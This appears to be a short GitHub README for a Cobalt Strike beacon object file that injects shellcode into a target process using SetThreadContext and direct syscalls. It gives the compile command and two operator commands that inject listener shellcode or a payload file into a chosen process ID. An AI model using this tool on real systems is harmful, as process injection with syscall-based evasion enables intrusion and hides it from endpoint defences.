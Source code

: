 # Direct Syscall SetThreadContext Inject 

This is a version of XPN's SetThreadContext as a beacon object file and using direct syscalls.

# Compile
`x86_64-w64-mingw32-gcc -c syscall_stcinject.c -o syscall_stcinject.o -masm=intel`

# Usage

NOTE: Currently only for x64
Load the CNA script in Cobalt Strike, then the following command will be included:

`syscall_stcinject PID Listener` - Inject shellcode created for listener to target PID
`syscall_stc_shinject PID /path/to/payload.bin` - Inject payload.bin file to target PID
